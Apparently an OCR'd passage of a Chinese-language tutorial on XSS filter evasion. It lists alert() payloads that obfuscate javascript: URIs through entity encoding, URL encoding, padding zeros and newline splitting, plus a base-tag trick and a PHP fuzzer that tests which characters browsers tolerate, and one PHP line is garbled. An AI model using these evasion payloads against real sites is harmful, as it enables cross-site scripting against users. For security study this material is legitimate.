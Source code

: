 ```
<script>
//@cc_on!alert(1)
/*@cc_on~alert(2)@*/
</script>

```

前面提到过标签属性中的URI可以做entity编码，同时，javascript:后面也可以做url编码，下面代码在所有浏览器中都可以成功执行。

```
<a href="j&#x61vascript:%61lert(1)">click me</a>

```

同时后面的url编码可以再做一次entity编码：

```
<a href="j&#x61vascript:&#x25;61lert(1)">click me</a>

```

由于entity编码允许&#之后插入任意多个0，再利用上javascript的注释混淆后：

```
<a href="j&#x61vascript: //%0&#x61 &#x00025;61lert(1)">click me</a>

```

base标签定义当前页面链接默认地址或默认目标，下面代码在opera中可执行：

```
<base href="javascript:alert(1)"/>
<a href="#">click me</a>

```

javascript也可以换行分割（在IE与chrome中可执行alert）：

```
<a href="j&#x61v
ascript: //%0&#x61 &#x00025;61lert(1)">click me</a>

```

换行字符同时也可以使用entity编码：

```
<a href="j&#x61va&#x000Ascript://%0&#x61&#x00025;61lert(1)"> click me</a>

<?php
for($i = 0; $i<=65535; $i++) {
    $chr = html_entity_decode('&#'.$i.';', ENT_QUOTES, 'UTF-8'0);
    echo '<iframe src="java'.$chr.'script:alert('.$i.')"></iframe> <br/>';
} ?>

```

上面代码可测出当前浏览器中，javascript字符串插入哪些字符仍然可以执行alert。
